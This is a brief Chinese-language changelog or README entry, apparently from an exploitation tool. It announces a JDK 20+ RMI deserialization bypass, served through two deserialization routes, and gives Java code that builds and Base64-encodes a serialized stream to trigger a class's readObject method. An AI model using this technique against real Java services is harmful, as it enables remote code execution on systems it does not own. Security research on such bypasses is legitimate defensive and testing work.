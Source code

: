增加 JDK 20+ RMI 反序列化绕过

走 /Deserialize/FromFile 和 /Deserialize/FromUrl 路由。

序列化数据生成：
```java
Test test = new Test();

ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
DataOutputStream dataOutputStream = new DataOutputStream(byteArrayOutputStream);
ObjectOutputStream objectOutputStream = new MarshalOutputStream(dataOutputStream, "");
objectOutputStream.writeByte(2);
new UID().write(objectOutputStream);
objectOutputStream.writeObject(new HashMap());
objectOutputStream.close();
dataOutputStream.close();
byteArrayOutputStream.close();

byte[] data = byteArrayOutputStream.toByteArray();
System.out.println(Base64.getEncoder().encodeToString(data));
System.out.println(data.length);
```

会调用 Test 的 readObject 方法。